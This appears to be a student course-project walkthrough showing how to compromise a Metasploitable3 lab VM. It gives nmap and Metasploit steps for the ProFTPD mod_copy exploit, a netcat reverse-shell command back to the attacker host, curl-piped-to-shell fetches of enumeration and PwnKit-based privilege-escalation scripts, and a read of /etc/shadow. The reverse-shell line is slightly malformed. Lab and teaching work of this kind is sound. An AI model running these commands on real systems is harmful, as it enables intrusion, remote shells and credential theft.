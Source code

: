 # 📚 Phase 1: Setup and Compromise the Service

---

## 🛠️ 1. Environment Setup

### 1.1 Import Victim VM (Metasploitable3)

- Downloaded `.ova` file from [SourceForge](https://sourceforge.net/projects/metasploitable3-ub1404upgraded/files/)
- Open VirtualBox → File → Import Appliance
- Customized settings (RAM=2048MB, CPU=2)

**Screenshots:**
- ![1-virtualbox_attacker_machine.png](./screenshots/1-virtualbox_attacker_machine.png)
- ![2-import_appliance_option.png](./screenshots/2-import_appliance_option.png)
- ![3-select_metasploitable3_ova.png](./screenshots/3-select_metasploitable3_ova.png)
- ![4-import_appliance_settings.png](./screenshots/4-import_appliance_settings.png)
- ![5-import_progress.png](./screenshots/5-import_progress.png)

---

### 1.2 Boot the Victim VM

- Started VM with credentials:
  - `username: vagrant`
  - `password: vagrant`

**Screenshot:**
- ![6-metasploitable3_login_success.png](./screenshots/6-metasploitable3_login_success.png)

---

### 1.3 Obtain Victim IP Address

- Victim (Metasploitable3) IP: `10.0.2.15`

**Screenshots:**
- ![7-ifconfig_command.png](./screenshots/7-ifconfig_command.png)
- ![8-victim_ip_found.png](./screenshots/8-victim_ip_found.png)

---

### 1.4 Obtain Attacker IP Address & Confirm Network Connectivity

- Attacker (Kali) IP: `10.0.2.6`
- Pinged victim from attacker:
```bash
ping 10.0.2.15
```

**Screenshot:**
- ![9-kali_ping_success.png](./screenshots/9-kali_ping_success.png)

---

# 💣 2. TASK 1.1: Compromise Service Using Metasploit

---

## 2.1 Scan Victim with Nmap

```bash
nmap -sV 10.0.2.15
```
- Discovered ProFTPD 1.3.5 on port 21

**Screenshot:**
- ![10-nmap_scan_results.png](./screenshots/10-nmap_scan_results.png)

---

## 2.2 Launch Metasploit Console

```bash
sudo msfconsole
```

**Screenshot:**
- ![11-start_msfconsole.png](./screenshots/11-start_msfconsole.png)

---

## 2.3 Search and Use Exploit

```bash
search mod_copy
use 0
```

**Screenshot:**
- ![12-search_and_use_modcopy_exploit.png](./screenshots/12-search_and_use_modcopy_exploit.png)

---

## 2.4 Configure Exploit Options

```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```

**Screenshot:**
- ![13-configure_rhosts_sitepath.png](./screenshots/13-configure_rhosts_sitepath.png)

---

## 2.5 Configure Payload and Reverse Shell Command

```bash
set payload 5
set LHOST 10.0.2.6
set LPORT 4444
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
```

**Screenshot:**
- ![14-set_payload_and_reverse_shell_command.png](./screenshots/14-set_payload_and_reverse_shell_command.png)

---

## 2.6 Start Netcat Listener (Terminal A)

```bash
nc -lnvp 4444
```

**Screenshot:**
- ![15-start_nc_listener.png](./screenshots/15-start_nc_listener.png)

---

## 2.7 Run Exploit (Terminal B)

```bash
run
```

**Screenshot:**
- ![16-run_exploit.png](./screenshots/16-run_exploit.png)

---

## 2.8 Confirm Reverse Shell Access

```bash
whoami
ls
```

**Screenshot:**
- ![17-confirm_shell_access.png](./screenshots/17-confirm_shell_access.png)

---

# 🛠️ 3. TASK 1.2: Custom Scripts & Privilege Escalation

---

## 3.1 Run Custom Enumeration Script (lightpeas.sh)

```bash
curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/lightpeas.sh | sh
```

**Screenshot:**
- ![18-run_lightpeas_script.png](./screenshots/18-run_lightpeas_script.png)

---

## 3.2 Execute Custom Privilege Escalation (escalate.sh)

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/escalate.sh)"
```

**Screenshot:**
- ![19-run_escalate_script.png](./screenshots/19-run_escalate_script.png)

---

## 3.3 Confirm Root Access

```bash
whoami
cat /etc/shadow
```

**Screenshot:**
- ![20-confirm_root_access.png](./screenshots/20-confirm_root_access.png)

---

# 📆 Custom Scripts Used

| Script | Purpose |
|:------|:--------|
| `lightpeas.sh` | Local enumeration script (gather system info) |
| `ExploitRoot.c` | Custom compiled PwnKit-based root exploit |
| `escalate.sh` | Automated script to compile and run ExploitRoot.c |

✅ Located at: `phase1/custom/`

---
